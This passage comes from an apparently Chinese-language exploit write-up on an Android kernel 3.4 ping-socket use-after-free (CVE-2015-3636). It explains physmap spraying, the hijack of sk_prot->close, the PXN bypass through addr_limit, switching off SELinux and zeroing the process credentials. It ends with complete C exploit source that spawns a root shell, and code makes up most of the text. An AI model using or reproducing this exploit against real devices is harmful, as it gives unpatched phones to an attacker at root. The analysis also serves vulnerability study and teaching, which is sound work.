  int         ret, i;

  mapped = mmap(NULL, size , PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
  if(MAP_FAILED == mapped)
  {
    printf("[*] mmap fail.\n");
    exit(-1);
  }


  for(i=0; i<size/PAGE_SIZE; i++)
  {
      memset((void *)((char *)mapped + PAGE_SIZE * i), 0x41, PAGE_SIZE);  
      mapped_page = (void *)((char *)mapped + PAGE_SIZE * i);
      
      /*
        to avoid 32bit exploit crash in inet_compat_ioctl
        ROM:FFFFFFC0003FE2CC                 LDR             X3, [X0,#0x28]             ;X0 points to aligned-page controlled by attacker 
        ROM:FFFFFFC0003FE2D0                 LDR             X3, [X3,#0x60]             
        ROM:FFFFFFC0003FE2D4                 CBZ             X3, loc_FFFFFFC0003FE2E4   ;if X3!=0 it will be used as function pointer
        ROM:FFFFFFC0003FE2D8                 BLR             X3
      */
      //*(unsigned long *)((char *)mapped_page + 0x28)  = mapped_page;
      //*(unsigned long *)((char *)mapped_page + 0x60)  = 0;
      /*
        info leak trick mentioned in Xu Wen's paper, a magic value will be read in sock_get_timestampns
        ROM:FFFFFFC000360B30                 LDR             X0, [X19,#0x1D8]           ;X19 points to aligned-page controlled by attacker
        ROM:FFFFFFC000360B34                 BL              ns_to_timespec
      */
      *(unsigned long *)((char *)mapped_page + 0x1D8)  = MAGIC_VALUE + physmap_spray_pages_count;
      /*ret = mlock(mapped_page, PAGE_SIZE);
      if(-1 == ret)
      {
          perror("[*] lock the mapped page fail");
          return -1;
      }*/

      physmap_spray_pages[physmap_spray_pages_count]  =  mapped_page;
      physmap_spray_pages_count++;
  }
  return 0;
}


printf("[*] physmap spray begin.\n");
  	memset(physmap_spray_pages,    0,   sizeof(physmap_spray_pages));
	memset(physmap_spray_children, 0, 	sizeof(physmap_spray_children));
  	physmap_spray_pages_count   =  0;
	for(i=0; i<MAX_PHYSMAP_SPRAY_PROCESS; i++)
	{
		
	    if(-1 == spray_nofork(MAX_PHYSMAP_SIZE))
	    {
	      printf("[*] physmap spray fail.\n");
	      return -1;
	    }
	}

	  printf("[*] physmap spray done.\n");
```

，在内核3.4上，已经存在pxn,还没有kaslr,为了绕过pxn.作者主要使用了ret2dir(physmap spray)方法

在内核中physmap在一个相对较高的地址，而SLAB通常在一个相对较低的地址，通过喷射其它的内核对象使得SLAB分配器在相对高的地址分配PING sock对象造成physmap和SLAB重叠，这个过程叫做lifting。这里的“其它的内核对象”直接用PING sock对象其实就可以（这就是申请如此多的socket原因，通过大量喷射sock,使得lifting,导致sock的块与我们physmap的块重叠）



那么如何才能找到physmap与uaf重叠的块呢？

这里主要利用了timespec结构体，ioctl(exp_sock, SIOCGSTAMPNS, &``time``);会调用到sock_get_timestampns

```c
int sock_get_timestampns(struct sock *sk, struct timespec __user *userstamp)
{
    struct timespec ts;
    if (!sock_flag(sk, SOCK_TIMESTAMP))
        sock_enable_timestamp(sk, SOCK_TIMESTAMP);
    ts = ktime_to_timespec(sk->sk_stamp);
    if (ts.tv_sec == -1)
        return -ENOENT;
    if (ts.tv_sec == 0) {
        sk->sk_stamp = ktime_get_real();
        ts = ktime_to_timespec(sk->sk_stamp);
    }
    return copy_to_user(userstamp, &ts, sizeof(ts)) ? -EFAULT : 0;
}
EXPORT_SYMBOL(sock_get_timestampns);
```

会返回sk->sk_stamp，在我们的环境中它在sock对象中的偏移正是0x1D8,应此我们在mmap的每一页的0x1d8的地方放上magic number

```c
   *(unsigned long *)((char *)mapped_page + 0x1D8)  = MAGIC_VALUE + physmap_spray_pages_count;
```

之后调用ioctl(exp_sock, SIOCGSTAMPNS, &``time``);查看是否是我们的magic number,如果是，我们就找到了mmap和socket的重叠块，可以在这个socket里任意写了，毕竟mmap是同时将我们的数据映射到用户和内核态的

```c
     int search_exploitable_socket(int* index, void** payload)
{
    struct    timespec time;
    uint64_t  value;
    void*     page     =  NULL;
    int       j        =  0;
    int       exp_sock = -1;
    int       got      =  0;

    *payload  = NULL;
    do
    {
        exp_sock = vultrig_socks[*index];
        memset(&time, 0, sizeof(time));
        ioctl(exp_sock, SIOCGSTAMPNS, &time);
        /*
            ts.tv_sec = div_s64_rem(nsec, NSEC_PER_SEC, &rem);
            if (unlikely(rem < 0)) {
             ts.tv_sec--;
              rem += NSEC_PER_SEC;
            }
            ts.tv_nsec = rem;
        */
        value = ((uint64_t)time.tv_sec * NSEC_PER_SEC) + time.tv_nsec;
        for(j=0;  j<physmap_spray_pages_count; j++)
        {
            page = physmap_spray_pages[j];
            if(value == *(unsigned long *)((char *)page + 0x1D8))
            {
                printf("[*] magic:%p\n", value);
                got      = 1;
                *payload = page;
                break;
            }
        }
        *index = *index + 1;
    }
    while(!got && *index < MAX_VULTRIG_SOCKS_COUNT);

    if(got == 0)
    {
        return -1;
    }
    else
    {
        return exp_sock;
    }
}


      exp_sock = -1;
	   exp_sock_index = exp_sock_index + 1;
	   exp_sock = search_exploitable_socket(&exp_sock_index, &payload);
	   if(-1 == exp_sock)
	   {
	      printf("[*] can't search exploitable socket.\n");
	      return -1;
	   }

```

找到exp_sock(socket的fd)之后因为它已经完全在我们的控制之中了，所以函数指针也是可控的，对其调用close函数就可以控制PC了,当我们close(socket时)调用

```c
int inet_release(struct socket *sock)
{
	struct sock *sk = sock->sk;

	if (sk) {
		long timeout;

		sock_rps_reset_flow(sk);

		/* Applications forget to leave groups before exiting */
		ip_mc_drop_socket(sk);

		/* If linger is set, we don't return until the close
		 * is complete.  Otherwise we return immediately. The
		 * actually closing is done the same either way.
		 *
		 * If the close is due to the process exiting, we never
		 * linger..
		 */
		timeout = 0;
		if (sock_flag(sk, SOCK_LINGER) &&
		    !(current->flags & PF_EXITING))
			timeout = sk->sk_lingertime;
		sock->sk = NULL;
		sk->sk_prot->close(sk, timeout);
	}
	return 0;
}
```

而我们控制的是sock，sk->sk_prot->close(sk, timeout);是调用payload的关键

调试了一下    sk_prot对于sock结构体在0x28的位置，sk_prot是一个函数列表，第一项就是close

```c
struct proto {
	void			(*close)(struct sock *sk,
					long timeout);
	int			(*connect)(struct sock *sk,
					struct sockaddr *uaddr,
					int addr_len);
	int			(*disconnect)(struct sock *sk, int flags);

	struct sock *		(*accept)(struct sock *sk, int flags, int *err);

	int			(*ioctl)(struct sock *sk, int cmd,
					 unsigned long arg);
	...}		
```

因此在我们控制的sock的0x28的地方放上payload的地址,




x19是我们控制的的sock,+0x28存放payload的地址(用户态),然后调用payload存放的值（没有开smap）,开了就用不了了

绕过pxn这里主要用的是360的方法来修改addr_limit，调用kernel_sockopt,改写addr_limit,来让用户态自由访问内核态，通过控制x0寄存器，跳过set_fs(old_fs)

addr_limit规定了特定线程的用户空间地址最大值，超过这个值的地址用户空间代码不能访问。所以把addr_limit改成0xffffffff就可以对内核为所欲为了

```c
nt kernel_setsockopt(struct socket *sock, int level, int optname,
            char *optval, unsigned int optlen)
{
    mm_segment_t oldfs = get_fs();
    char __user *uoptval;
    int err;
 
    uoptval = (char __user __force *) optval;
 
    set_fs(KERNEL_DS);
    if (level == SOL_SOCKET)
        err = sock_setsockopt(sock, level, optname, uoptval, optlen);
    else
        err = sock->ops->setsockopt(sock, level, optname, uoptval,
                        optlen);
    set_fs(oldfs);
    return err;}
```




```c
   *(unsigned long *)((char *)payload + 0x290)  = 0;
	   /*
	    hijack PC here
	    ROM:FFFFFFC0003FEA24                 MOV             X0, X19
	    ROM:FFFFFFC0003FEA28                 LDR             X2, [X19,#0x28]
	    ROM:FFFFFFC0003FEA2C                 LDR             X2, [X2]
	    ROM:FFFFFFC0003FEA30                 BLR             X2    
	   */

	   /*
	    call kernel_setsockopt to set addr_limit 0xFFFFFFFFFFFFFFFF

	    ROM:FFFFFFC00035D788                 STP             X29, X30, [SP,#-0x20+var_s0]!
	    ROM:FFFFFFC00035D78C                 CMP             W1, #1
	    ROM:FFFFFFC00035D790                 MOV             X5, SP
	    ROM:FFFFFFC00035D794                 MOV             X29, SP
	    ROM:FFFFFFC00035D798                 STP             X19, X20, [SP,#var_s10]
	    ROM:FFFFFFC00035D79C                 AND             X19, X5, #0xFFFFFFFFFFFFC000
	    ROM:FFFFFFC00035D7A0                 MOV             X5, #0xFFFFFFFFFFFFFFFF
	    ROM:FFFFFFC00035D7A4                 LDR             X20, [X19,#8]
	    ROM:FFFFFFC00035D7A8                 STR             X5, [X19,#8]
	    ROM:FFFFFFC00035D7AC                 B.EQ            loc_FFFFFFC00035D7CC
	    ROM:FFFFFFC00035D7B0                 LDR             X5, [X0,#0x28]
	    ROM:FFFFFFC00035D7B4                 LDR             X5, [X5,#0x68]
	    ROM:FFFFFFC00035D7B8                 BLR             X5
	    ROM:FFFFFFC00035D7BC                 STR             X20, [X19,#8]
	    ROM:FFFFFFC00035D7C0                 LDP             X19, X20, [SP,#var_s10]
	    ROM:FFFFFFC00035D7C4                 LDP             X29, X30, [SP+var_s0],#0x20
	    ROM:FFFFFFC00035D7C8                 RET

	   */
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC00035D788;
	   *(unsigned long *)((char *)payload + 0x68)  = (unsigned long)0xFFFFFFC00035D7C0;
	   close(exp_sock);

	   printf("[*] now we can R/W kernel address space like a boss.\n");
```


x0是我们控制的sock 

这样，我们可以以用户态的身份任意写了

```c
 data8 = 0; 
   kernel_write8((void *)0xffffffc000652148, &data8);
   user_mm = mmap(NULL, PAGE_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE| MAP_FIXED |MAP_ANONYMOUS, -1, 0);
   if(MAP_FAILED == user_mm)
   {
      perror("[*] mmap NULL fail");
      return -1;
   }
```

改全局mmap_min_addr让我们能够在用户态mmap null地址

```c
 data4 = 0;
   kernel_write4((void *)0xffffffc00065399c, &data4);
   printf("[*] selinux disabled.\n");
```

关掉selinux

接着再通过泄露栈的方式得到thread_info 因为在kernel里 stack和thread_info是个联合

```c
exp_sock = -1;
	   exp_sock_index = exp_sock_index + 1;
	   exp_sock = search_exploitable_socket(&exp_sock_index, &payload);
	   if(-1 == exp_sock)
	   {
	      printf("[*] can't search exploitable socket.\n");
	      return -1;
	   }

	   /*
	      when PC is hijacked, X1 is 0. so we can leak task_struct pointer in 0x0000000000000018

	      ROM:FFFFFFC0004AA518                 MOV             X2, SP
	      ROM:FFFFFFC0004AA51C                 AND             X2, X2, #0xFFFFFFFFFFFFC000
	      ROM:FFFFFFC0004AA520                 LDR             X2, [X2,#0x10]
	      ROM:FFFFFFC0004AA524                 STR             X2, [X1,#0x18]
	      ROM:FFFFFFC0004AA528                 RET
	   */
	   *(unsigned long *)((char *)payload + 0x290) = 0;
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC0004AA518;
	   close(exp_sock);
```

经过调试,这里的x1是0，也就是我们申请的null页的地址

此时，我们已经得到了thread_info的地址，同时修改了addr_limit,那么我们就可以直接来改写ccred,赋值给0了

	

```c
   */
	   *(unsigned long *)((char *)payload + 0x290) = 0;
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC0004AA518;
	   close(exp_sock);


	   /*
	      overwrite task_struct->cred to gain root privilege
	   */
	   task = NULL;
	   task = (void *)*(unsigned long *)((char *)user_mm + 0x18);
	   printf("[*] task:%p\n", task); 

	   cred = NULL;
	   kernel_read8((char *)task + 0x398, &cred);
	   printf("[*] cred:%p\n", cred);

	   data4 = 0;
	   kernel_write4((char *)cred +  4,  &data4);
	   kernel_write4((char *)cred +  8,  &data4);
	   kernel_write4((char *)cred + 12,  &data4);
	   kernel_write4((char *)cred + 16,  &data4);
	   kernel_write4((char *)cred + 20,  &data4);
	   kernel_write4((char *)cred + 24,  &data4);
	   kernel_write4((char *)cred + 28,  &data4);
	   kernel_write4((char *)cred + 32,  &data4);

```

完整exp:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <limits.h>
#include <signal.h>
#include <string.h>
#include <time.h>
#include <pthread.h>
#include <sys/wait.h>
#include <sys/sysinfo.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <linux/in.h>
#include <linux/sockios.h>


#define PAGE_SIZE			  4096
#define SIOCGSTAMPNS 			  0x8907
#define MAGIC_VALUE 			  0x4B5F5F4B
#define OOM_DISABLE                       (-100)
#define NSEC_PER_SEC                      1000000000

#define STATUS_SUCCESS                    0
#define STATUS_FAILURE                    -1  
#define MAX_PHYSMAP_SIZE                  128*1024*1024
#define MAX_PATH                          0x100
#define MAX_PHYSMAP_SPRAY_PROCESS         6
#define MAX_VULTRIG_SOCKS_COUNT           4000
#define MAX_NULLMAP_SIZE                  (PAGE_SIZE * 4)


int   vultrig_socks[MAX_VULTRIG_SOCKS_COUNT];
void* physmap_spray_pages[(MAX_PHYSMAP_SIZE / PAGE_SIZE) * MAX_PHYSMAP_SPRAY_PROCESS];
int   physmap_spray_pages_count;


static int
maximize_fd_limit(void)
{
  struct rlimit rlim;
  int ret;

  ret = getrlimit(RLIMIT_NOFILE, &rlim);
  if (ret != 0) {
    return -1;
  }

  rlim.rlim_cur = rlim.rlim_max;
  setrlimit(RLIMIT_NOFILE, &rlim);

  ret = getrlimit(RLIMIT_NOFILE, &rlim);
  if (ret != 0) {
    return -1;
  }

  return rlim.rlim_cur;
}


int spray_nofork(unsigned int size)
{

  void*       mapped;
  void*       mapped_page;
  int         ret, i;

  mapped = mmap(NULL, size , PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
  if(MAP_FAILED == mapped)
  {
    printf("[*] mmap fail.\n");
    exit(-1);
  }


  for(i=0; i<size/PAGE_SIZE; i++)
  {
      memset((void *)((char *)mapped + PAGE_SIZE * i), 0x41, PAGE_SIZE);  
      mapped_page = (void *)((char *)mapped + PAGE_SIZE * i);
      
      /*
        to avoid 32bit exploit crash in inet_compat_ioctl
        ROM:FFFFFFC0003FE2CC                 LDR             X3, [X0,#0x28]             ;X0 points to aligned-page controlled by attacker 
        ROM:FFFFFFC0003FE2D0                 LDR             X3, [X3,#0x60]             
        ROM:FFFFFFC0003FE2D4                 CBZ             X3, loc_FFFFFFC0003FE2E4   ;if X3!=0 it will be used as function pointer
        ROM:FFFFFFC0003FE2D8                 BLR             X3
      */
      //*(unsigned long *)((char *)mapped_page + 0x28)  = mapped_page;
      //*(unsigned long *)((char *)mapped_page + 0x60)  = 0;
      /*
        info leak trick mentioned in Xu Wen's paper, a magic value will be read in sock_get_timestampns
        ROM:FFFFFFC000360B30                 LDR             X0, [X19,#0x1D8]           ;X19 points to aligned-page controlled by attacker
        ROM:FFFFFFC000360B34                 BL              ns_to_timespec
      */
      *(unsigned long *)((char *)mapped_page + 0x1D8)  = MAGIC_VALUE + physmap_spray_pages_count;
      /*ret = mlock(mapped_page, PAGE_SIZE);
      if(-1 == ret)
      {
          perror("[*] lock the mapped page fail");
          return -1;
      }*/

      physmap_spray_pages[physmap_spray_pages_count]  =  mapped_page;
      physmap_spray_pages_count++;
  }
  return 0;
}


int kernel_read8(void* kernel_addr,  unsigned long* value)
{
    int pipefd[2];
 
    if(-1 == pipe(pipefd))
    {
        printf("[*] create dual pipe fail.\n");
        return -1;
    }
 
 
    if(-1 == write(pipefd[1], kernel_addr, 8))
    {
        perror("[*] write pipe fail.");
        return -1;
    }
 
    if(0 == read(pipefd[0], value, 8))
    {
        perror("[*] read piple fail.");
        return -1;
    }
 
    return 0;
}


int kernel_read4(void* kernel_addr,  unsigned int* value)
{
    int pipefd[2];
 
    if(-1 == pipe(pipefd))
    {
        printf("[*] create dual pipe fail.\n");
        return -1;
    }
 
 
    if(-1 == write(pipefd[1], kernel_addr, 4))
    {
        perror("[*] write pipe fail.");
        return -1;
    }
 
    if(0 == read(pipefd[0], value, 4))
    {
        perror("[*] read piple fail.");
        return -1;
    }
 
    return 0;
}
 
 
int kernel_write8(void* kernel_addr, unsigned long* value)
{
 
    int pipefd[2];
 
    if(-1 == pipe(pipefd))
    {
        printf("[*] create dual pipe fail.\n");
        return -1;
    }
 
 
    if(-1 == write(pipefd[1], value, 8))
    {
        perror("[*] write pipe fail.");
        return -1;
    }
 
    if(0 == read(pipefd[0], kernel_addr, 8))
    {
        perror("[*] read piple fail.");
        return -1;
    }
 
    return 0;
}


int kernel_write4(void* kernel_addr, unsigned int* value)
{
 
    int pipefd[2];
 
    if(-1 == pipe(pipefd))
    {
        printf("[*] create dual pipe fail.\n");
        return -1;
    }
 
 
    if(-1 == write(pipefd[1], value, 4))
    {
        perror("[*] write pipe fail.");
        return -1;
    }
 
    if(0 == read(pipefd[0], kernel_addr, 4))
    {
        perror("[*] read piple fail.");
        return -1;
    }
 
    return 0;
}


int search_exploitable_socket(int* index, void** payload)
{
    struct    timespec time;
    uint64_t  value;
    void*     page     =  NULL;
    int       j        =  0;
    int       exp_sock = -1;
    int       got      =  0;

    *payload  = NULL;
    do
    {
        exp_sock = vultrig_socks[*index];
        memset(&time, 0, sizeof(time));
        ioctl(exp_sock, SIOCGSTAMPNS, &time);
        /*
            ts.tv_sec = div_s64_rem(nsec, NSEC_PER_SEC, &rem);
            if (unlikely(rem < 0)) {
             ts.tv_sec--;
              rem += NSEC_PER_SEC;
            }
            ts.tv_nsec = rem;
        */
        value = ((uint64_t)time.tv_sec * NSEC_PER_SEC) + time.tv_nsec;
        for(j=0;  j<physmap_spray_pages_count; j++)
        {
            page = physmap_spray_pages[j];
            if(value == *(unsigned long *)((char *)page + 0x1D8))
            {
                printf("[*] magic:%p\n", value);
                got      = 1;
                *payload = page;
                break;
            }
        }
        *index = *index + 1;
    }
    while(!got && *index < MAX_VULTRIG_SOCKS_COUNT);

    if(got == 0)
    {
        return -1;
    }
    else
    {
        return exp_sock;
    }
}


int main() {
	pid_t	  physmap_spray_children[MAX_PHYSMAP_SPRAY_PROCESS];
	int 	  i, ret, j, exp_sock, exp_sock_index;
	unsigned long  data8;
	unsigned int   data4;
	void*     payload;
	void*     cred;
	void*     page;
	void*     task;
	void*     files;
	void*     fdt;

	struct sockaddr addr1 = { .sa_family = AF_INET 	 };
	struct sockaddr addr2 = { .sa_family = AF_UNSPEC };


	if(-1 == maximize_fd_limit())
 	 {
      		perror("[*] maximize socket limit fail");
      		exit(-1);
  	 }

	
	for(i=0; i<MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		vultrig_socks[i] = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);
		if(-1 == vultrig_socks[i])
		{
			perror("[-] create vultrig socket fail.\n");
			exit(-1);
		}

		ret = connect(vultrig_socks[i], &addr1, sizeof(addr1));
		if(-1 == ret)
		{
			perror("[-] create vultrig socket fail.\n");
			exit(-1);
		}
	}
	
	system("echo 4096 > /proc/sys/vm/mmap_min_addr");
	void* user_mm = mmap(PAGE_SIZE, MAX_NULLMAP_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE| MAP_FIXED |MAP_ANONYMOUS, -1, 0);
	if(MAP_FAILED == user_mm)
	{
	      perror("[-] mmap NULL fail");
	      exit(-1);
	}

	for(i=0; i<MAX_NULLMAP_SIZE/PAGE_SIZE; i++)
	{
	     memset((char *)user_mm + PAGE_SIZE * i, 0x90, PAGE_SIZE);
	}
  
	for(i=0; i<MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		ret = connect(vultrig_socks[i], &addr2, sizeof(addr2));
		if(-1 == ret)
		{
			perror("[-] create vultrig socket fail");
			exit(-1);
		}

		ret = connect(vultrig_socks[i], &addr2, sizeof(addr2));
		if(-1 == ret)
		{
			perror("[-] connect vultrig socket fail");
			exit(-1);
		}
	}

	printf("[*] physmap spray begin.\n");
  	memset(physmap_spray_pages,    0,   sizeof(physmap_spray_pages));
	memset(physmap_spray_children, 0, 	sizeof(physmap_spray_children));
  	physmap_spray_pages_count   =  0;
	for(i=0; i<MAX_PHYSMAP_SPRAY_PROCESS; i++)
	{
		
	    if(-1 == spray_nofork(MAX_PHYSMAP_SIZE))
	    {
	      printf("[*] physmap spray fail.\n");
	      return -1;
	    }
	}

	  printf("[*] physmap spray done.\n");
  
	  exp_sock_index = MAX_VULTRIG_SOCKS_COUNT / 2;
  	  exp_sock = search_exploitable_socket(&exp_sock_index, &payload);
	  if(-1 == exp_sock)
	  {
	      printf("[*] can't search exploitable socket.\n");
	      return -1;
	  }

	  /*
	    to avoid 64bit exp crash here
	    ROM:FFFFFFC00040250C  LDR             X1, [X0,#0x290]
	    ROM:FFFFFFC000402510  CBZ             X1, loc_FFFFFFC000402590
	   */
	   *(unsigned long *)((char *)payload + 0x290)  = 0;
	   /*
	    hijack PC here
	    ROM:FFFFFFC0003FEA24                 MOV             X0, X19
	    ROM:FFFFFFC0003FEA28                 LDR             X2, [X19,#0x28]
	    ROM:FFFFFFC0003FEA2C                 LDR             X2, [X2]
	    ROM:FFFFFFC0003FEA30                 BLR             X2    
	   */

	   /*
	    call kernel_setsockopt to set addr_limit 0xFFFFFFFFFFFFFFFF

	    ROM:FFFFFFC00035D788                 STP             X29, X30, [SP,#-0x20+var_s0]!
	    ROM:FFFFFFC00035D78C                 CMP             W1, #1
	    ROM:FFFFFFC00035D790                 MOV             X5, SP
	    ROM:FFFFFFC00035D794                 MOV             X29, SP
	    ROM:FFFFFFC00035D798                 STP             X19, X20, [SP,#var_s10]
	    ROM:FFFFFFC00035D79C                 AND             X19, X5, #0xFFFFFFFFFFFFC000
	    ROM:FFFFFFC00035D7A0                 MOV             X5, #0xFFFFFFFFFFFFFFFF
	    ROM:FFFFFFC00035D7A4                 LDR             X20, [X19,#8]
	    ROM:FFFFFFC00035D7A8                 STR             X5, [X19,#8]
	    ROM:FFFFFFC00035D7AC                 B.EQ            loc_FFFFFFC00035D7CC
	    ROM:FFFFFFC00035D7B0                 LDR             X5, [X0,#0x28]
	    ROM:FFFFFFC00035D7B4                 LDR             X5, [X5,#0x68]
	    ROM:FFFFFFC00035D7B8                 BLR             X5
	    ROM:FFFFFFC00035D7BC                 STR             X20, [X19,#8]
	    ROM:FFFFFFC00035D7C0                 LDP             X19, X20, [SP,#var_s10]
	    ROM:FFFFFFC00035D7C4                 LDP             X29, X30, [SP+var_s0],#0x20
	    ROM:FFFFFFC00035D7C8                 RET

	   */
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC00035D788;
	   *(unsigned long *)((char *)payload + 0x68)  = (unsigned long)0xFFFFFFC00035D7C0;
	   close(exp_sock);

	   printf("[*] now we can R/W kernel address space like a boss.\n");
	   /*now we can RW kernel address spcae like a boss.*/

	   /*
	      overwrite the global variable mmap_min_addr to 0, then we can mmap NULL in user-mode 
	   */
	   data8 = 0; 
	   kernel_write8((void *)0xffffffc000652148, &data8);
	   user_mm = mmap(NULL, PAGE_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE| MAP_FIXED |MAP_ANONYMOUS, -1, 0);
	   if(MAP_FAILED == user_mm)
	   {
	      perror("[*] mmap NULL fail");
	      return -1;
	   }

	   /*
	      overwirte selinux_enforcing to disable selinux
	   */
	   data4 = 0;
	   kernel_write4((void *)0xffffffc00065399c, &data4);
	   printf("[*] selinux disabled.\n");


	   exp_sock = -1;
	   exp_sock_index = exp_sock_index + 1;
	   exp_sock = search_exploitable_socket(&exp_sock_index, &payload);
	   if(-1 == exp_sock)
	   {
	      printf("[*] can't search exploitable socket.\n");
	      return -1;
	   }

	   /*
	      when PC is hijacked, X1 is 0. so we can leak task_struct pointer in 0x0000000000000018

	      ROM:FFFFFFC0004AA518                 MOV             X2, SP
	      ROM:FFFFFFC0004AA51C                 AND             X2, X2, #0xFFFFFFFFFFFFC000
	      ROM:FFFFFFC0004AA520                 LDR             X2, [X2,#0x10]
	      ROM:FFFFFFC0004AA524                 STR             X2, [X1,#0x18]
	      ROM:FFFFFFC0004AA528                 RET
	   */
	   *(unsigned long *)((char *)payload + 0x290) = 0;
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC0004AA518;
	   close(exp_sock);


	   /*
	      overwrite task_struct->cred to gain root privilege
	   */
	   task = NULL;
	   task = (void *)*(unsigned long *)((char *)user_mm + 0x18);
	   printf("[*] task:%p\n", task); 

	   cred = NULL;
	   kernel_read8((char *)task + 0x398, &cred);
	   printf("[*] cred:%p\n", cred);

	   data4 = 0;
	   kernel_write4((char *)cred +  4,  &data4);
	   kernel_write4((char *)cred +  8,  &data4);
	   kernel_write4((char *)cred + 12,  &data4);
	   kernel_write4((char *)cred + 16,  &data4);
	   kernel_write4((char *)cred + 20,  &data4);
	   kernel_write4((char *)cred + 24,  &data4);
	   kernel_write4((char *)cred + 28,  &data4);
	   kernel_write4((char *)cred + 32,  &data4);

	   /*
	      cleanup to avoid crash. overwirte task_struct->files->fdt->max_fds to 0
	   */

	   kernel_read8((char *)task + 0x788, &files);
	   printf("[*] files:%p\n", files);

	   kernel_read8((char *)files + 8, &fdt);
	   printf("[*] fdt:%p\n", fdt);

	   data4 = 0;
	   kernel_write4(fdt, &data4);


	  if(getuid() == 0)
	  {
	      printf("[*] congrats, enjoy your root shell.\n");
	      system("/system/bin/sh");
	  }
	  else
	  {
	    printf("[*] Oops, you'd better have a cup of tea and try again:(\n");
	  }
  


	return 0;
}

```


## 参考

https://bbs.pediy.com/thread-230298.htm

http://pwn4.fun/2017/08/03/CVE-2015-3636%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

https://blog.csdn.net/koozxcv/article/details/50976884

